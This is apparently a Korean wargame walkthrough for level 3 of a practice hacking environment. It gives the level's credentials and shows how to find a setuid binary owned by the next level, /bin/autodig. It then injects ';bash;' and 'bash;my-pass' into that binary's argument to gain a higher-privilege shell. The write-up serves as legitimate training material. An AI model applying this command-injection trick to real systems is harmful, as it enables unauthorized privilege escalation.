 # level 3

* id : `level3`
* pw : `can you fly?`

![](./img/2021-11-05-16-42-07.png)

```
find / -user level4
```

![](./img/2021-11-05-16-43-30.png)
![](./img/2021-11-05-16-44-59.png)
역시나 `/bin/autodig`가 있다.

리눅스에서 명령어는 C언어처럼 `;`로 끝난다.

해당 소스를 보면 간단하게 문자열을 더해서 고대로 쉘처럼 실행하는 프로그램이므로

`;`를 이용해 뒤에 bash 쉘을 추가로 실행하게끔 하면 된다.

```
/bin/autodig ";bash;"
```

![](./img/2021-11-05-16-47-20.png)

물론 다른방법도 있다. 

```
/bin/autodig "bash;my-pass"
```

![](./img/2021-11-05-16-48-31.png)